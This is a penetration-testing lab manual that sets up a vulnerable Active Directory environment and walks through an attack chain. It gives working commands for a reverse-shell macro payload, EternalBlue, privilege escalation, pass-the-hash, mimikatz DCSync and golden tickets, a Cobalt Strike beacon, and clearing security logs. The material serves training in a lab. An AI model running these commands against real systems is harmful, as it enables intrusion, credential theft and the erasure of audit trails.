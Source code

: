 
# Penetration Testing Lab Manual

A Complete Guide to Building, Exploiting, and Compromising an Active Directory Environment in VMware Workstation

Table of Contents
• Introduction
• Lab Setup
• Required Software
• Network Configuration
• VM Installation
• Attacker Machine (Kali Linux)
• Windows Domain Controller (DC01)
• Windows Workstations (PC1, PC2)
• Linux Servers (WEB01, DB01)
• Active Directory Setup
• Vulnerable Applications & Misconfigurations
• Exploitation Path
• Initial Access
• Privilege Escalation
• Lateral Movement
• Domain Controller Compromise
• Post-Exploitation & Cleanup
• Conclusion

⸻

Introduction

This guide walks you through manually setting up a penetration testing lab in VMware Workstation with vulnerable machines and misconfigurations. You will install specific vulnerable software, exploit weaknesses, and escalate privileges to compromise an Active Directory domain controller.

⸻

Lab Setup

Required Software

Machine OS Software
Kali Linux Kali Linux nmap, metasploit, crackmapexec, mimikatz, bloodhound, impacket
Windows Server 2022 Windows Server 2022 Active Directory, DNS, SMB, RDP


Windows 10 Pro Windows 10 Vulnerable Apps: Java 7, Office 2016 (Macros), SMBv1
Windows 7 Windows 7 Vulnerable Apps: EternalBlue (MS17-010), Outdated IE


Ubuntu Web Server Ubuntu Server Vulnerable Apps: Apache 2.2.3, PHP 5.3.29, SQLi-prone CMS
Ubuntu Database Server Ubuntu Server Vulnerable Apps: MySQL 5.5, Weak Credentials



⸻

Network Configuration

Network Type Subnet Purpose
VMnet1 Host-Only 192.168.1.0/24 Internal Corporate Network
VMnet2 NAT 192.168.2.0/24 Attacker Network
VMnet3 Bridged 192.168.3.0/24 Internet Access (Optional)



⸻

VM Installation

Attacker Machine (Kali Linux)
1. Download Kali Linux from kali.org.
2. Create a VMware VM:
• OS: Linux > Debian 64-bit
• CPU: 4 Cores
• RAM: 4GB
• Network: VMnet2 (NAT)
3. Install and update:

sudo apt update && sudo apt upgrade -y



⸻

Windows Domain Controller (DC01)
1. Install Windows Server 2022.
2. Set up Active Directory (AD DS):

Install-ADDSForest -DomainName corp.local -SafeModeAdministratorPassword (ConvertTo-SecureString "P@ssword123" -AsPlainText -Force) -Force


3. Create domain users:

New-ADUser -Name "user1" -AccountPassword (ConvertTo-SecureString "P@ssword1" -AsPlainText -Force) -Enabled $true



⸻

Windows Workstations (PC1, PC2)
1. Install Windows 10 and Windows 7.
2. Install vulnerable applications:
• Java 7 (Download from Oracle archive).
• Office 2016 (Enable Macros).
• SMBv1:

Set-SmbServerConfiguration -EnableSMB1Protocol $true



⸻

Linux Servers (WEB01, DB01)
1. Install Ubuntu Server.
2. Install vulnerable software:

sudo apt install apache2 mysql-server php5



⸻

Vulnerable Applications & Misconfigurations

Service Vulnerability Exploit
SMBv1 EternalBlue ms17_010_eternalblue
Office Macros Malicious Macros msfvenom
SQL Server Weak Credentials sqlmap
Apache 2.2.3 Remote Code Execution exploit/multi/http/php_cgi_arg_injection



⸻

Exploitation Path

1. Initial Access

Phishing with Malicious Macros

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.100 LPORT=4444 -f vba > macro.vba

Send via phishing email and trigger a shell.

EternalBlue (SMB Exploit) on Windows 7

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.30
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit



⸻

2. Privilege Escalation

Finding Weak Privileges

winpeas.exe > output.txt

Exploit AlwaysInstallElevated:

reg add HKLMSoftwarePoliciesMicrosoftWindowsInstaller /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
msiexec /quiet /qn /i malicious.msi



⸻

3. Lateral Movement

Pass-the-Hash Attack

crackmapexec smb 192.168.1.10 -u admin -H <hash>

RDP Hijacking

query user
tscon 1 /dest:console



⸻

4. Domain Controller Compromise

DCSync Attack

mimikatz
lsadump::dcsync /domain:corp.local /user:Administrator

Golden Ticket Attack

mimikatz # kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXX /krbtgt:<NTLM HASH>



⸻

Post-Exploitation & Cleanup

Maintaining Access
• Create a new domain admin user.
• Deploy Cobalt Strike beacon.

Clearing Tracks

wevtutil cl Security



⸻

Conclusion
